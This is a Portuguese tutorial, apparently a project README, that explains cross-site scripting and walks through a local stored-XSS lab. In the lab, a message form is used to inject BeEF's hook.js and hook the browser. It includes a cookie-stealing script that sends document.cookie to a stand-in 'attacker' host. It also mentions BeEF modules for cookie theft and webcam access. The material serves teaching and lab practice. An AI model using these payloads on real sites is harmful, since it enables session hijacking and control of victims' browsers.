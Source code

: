 # TUTORIAL XSS - cross site scripting

## O que é o XSS?

O cross site scripting (XSS) é um ataque de injeção de código que permite que um invasor execute JavaScript mal-intencionado no navegador de outro usuário.

O atacante não direciona diretamente a vítima. Em vez disso, ele explora uma vulnerabilidade em um site que a vítima visita, a fim de obter o site para entregar o JavaScript malicioso para ele. Para o navegador da vítima, o JavaScript malicioso parece ser uma parte legítima do site, e o site agiu como um cúmplice não intencional para o invasor.

## Como o JavaScript malicioso é injetado

A única maneira de o invasor executar o JavaScript mal-intencionado no navegador da vítima é injetá-lo em uma das páginas que a vítima baixa do site. Isso pode acontecer se o site incluir diretamente a entrada do usuário em suas páginas, porque o invasor pode inserir uma sequência que será tratada como código pelo navegador da vítima.

No exemplo abaixo, um script simples do lado do servidor é usado para exibir o comentário mais recente em um site:

```js
print "<html>"
print "Latest comment:"
print database.latestComment
print "</html>"
```
### Atores em um ataque XSS
Antes de descrevermos em detalhes como um ataque XSS funciona, precisamos definir os atores envolvidos em um ataque XSS. Em geral, um ataque XSS envolve três atores: o site , a vítima e o invasor .

O site serve páginas HTML para usuários que as solicitam. Nos nossos exemplos, está localizado em http://website/.

O banco de dados do site é um banco de dados que armazena parte da entrada do usuário incluída nas páginas do site.

A **vítima** é um usuário normal do site que solicita páginas a partir dele usando seu navegador.

O **invasor** é um usuário mal-intencionado do site que pretende lançar um ataque à vítima explorando uma vulnerabilidade de XSS no site.

O **servidor do invasor** é um servidor da Web controlado pelo invasor com o único propósito de roubar as informações confidenciais da vítima. Nos nossos exemplos, está localizado em http://attacker/.

### Um exemplo de cenário de ataque

Neste exemplo, vamos assumir que o objetivo final do atacante é roubar os cookies da vítima explorando uma vulnerabilidade do XSS no site. Isso pode ser feito com o navegador da vítima analisando o seguinte código HTML:
```js
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
Esse script navega no navegador do usuário para um URL diferente, acionando uma solicitação HTTP para o servidor do invasor. O URL inclui os cookies da vítima como um parâmetro de consulta, que o invasor pode extrair da solicitação quando chega ao seu servidor. Uma vez que o invasor tenha adquirido os cookies, ele pode usá-los para representar a vítima e lançar novos ataques.

A partir de agora, o código HTML acima será referido como a cadeia maliciosa ou o script malicioso . É importante notar que a string em si é apenas maliciosa se for analisada como HTML no navegador da vítima, o que só pode acontecer como resultado de uma vulnerabilidade do XSS no site.

### Como funciona o ataque de exemplo
O diagrama abaixo ilustra como esse o exemplo de ataque pode ser executado por um invasor:

![Script Server](https://excess-xss.com/reflected-xss.png)

* O atacante cria uma URL contendo uma string maliciosa e a envia para a vítima.

* A vítima é enganada pelo atacante para solicitar o URL do site.

* O site inclui a sequência maliciosa do URL na resposta.

* O navegador da vítima executa o script malicioso dentro da resposta, enviando os cookies da vítima para o servidor do invasor.

![BeEF Logo](https://github.com/beefproject/beef/wiki/Images/logo.png)


# Visão geral BeEF Framework
O Browser Exploitation Framework (BeEF) é uma poderosa ferramenta de segurança profissional. O BeEF é uma técnica pioneira que fornece ao testador de penetração experiente vetores práticos de ataque do lado do cliente. Ao contrário de outras estruturas de segurança, o BeEF se concentra em aproveitar as vulnerabilidades do navegador para avaliar a postura de segurança de um alvo. Este projeto é desenvolvido exclusivamente para pesquisa legal e testes de penetração.

O BeEF conecta um ou mais navegadores da Web como cabeças de ponte para o lançamento de módulos de comando direcionados. Cada navegador provavelmente está em um contexto de segurança diferente e cada contexto pode fornecer um conjunto de vetores de ataque exclusivos. A estrutura permite que o testador de penetração selecione módulos específicos (em tempo real) para direcionar cada navegador e, portanto, cada contexto.

O framework contém vários módulos de comando que empregam a API simples e poderosa do BeEF. Essa API está no centro da eficácia e eficiência da estrutura. Ele abstrai a complexidade e facilita o desenvolvimento rápido de módulos personalizados.

# Prática

## Configuração de Ambiente 

### Primeiro instale o BeEF

[Guia de Instalação](https://github.com/beefproject/beef/wiki/Installation) 

### Em seguinda, caso não tenha instale o Servidor Web 

No nosso caso podemos usar o Xampp. 
Pois iremos utilizar o php, apache e o banco de dados.

[Instalação Xampp Ubuntu](http://www.edivaldobrito.com.br/como-instalar-o-xampp-no-linux/)

#### Configurar o banco

Ao instalar o xamp ele traz a ferramenta phpmyadmin nela:
* Criar o banco com o nome "messeger"
* Importar o arquivo messeger.sql disponivel no projeto que será baixado e servirá para criar a tabela.


### Baixe o projeto neste github

* Edite o arquivo db.php no projeto com os dados (usuario e senha) do seu banco.

* Após editar o projeto, coloque na pasta (/opt/lampp/htdocs)

* Verifique se o servidor tá rodando e acesse http://localhost/messager/


Se tudo tive ocorrido bem está é a página que vai mostrar

![formulario](img/form.png)



## O Ataque

Para iniciar, iremos acessar a página que o beef foi baixado ou clonado e lá iniciar o framework com o comando especificado abaixo

``` js
./beef
```

Então preencha o formulário da tela anterior com um email qualquer text@text e no campo mensagem digite 

``` js
<script src="http://127.0.0.1:3000/hook.js"></script>
```
Link encontrado após iniciar a aplicação
![beef](img/beef.png)

    Então esse script irá para o banco e será armazenado.

Após isso acessaremos o painel do beef com o link que se encontra na imagem

``` js
    http://127.0.0.1:3000/ui/panel
```
Então acessem a o painel com o usuário padrão *beef* e senha *beef* e então irá aparecer a página inicial da ferramenta.

![beef inicial](img/beefinicio.png)

Para saber se o site foi infectado, acesse 
http://localhost/messager/mensagens.php

![Tela de retorno das mensagens](img/mensagens.png)

Este é o resultado, está sendo mostrado a lista dos email e mensagens cadastrados.
Se você notar, existe um campo mensagem que está vázio, este é o campo que foi enviado o script malicioso.
Especionado a página, vc encontra o script que foi enviado anteriormente.

Acessando o panel do beef novamente você irá notar que depois de executar a listagem das mensagens o script ativou o monitoriamento na ferramenta e o site está infectado.

![beef infectado](img/beefinfectado.png)

Após isso, clique no ip da máquina que deseja monitorar e então você pode acessar a aba comandos no menu vertical, no modulo browser existe diversos comandos para serem usados no site infectado como: acessar a webcam, obter cookies, obter links como também mudar links.

Existe uma infinidade de opções. Fique a vontade para usar.



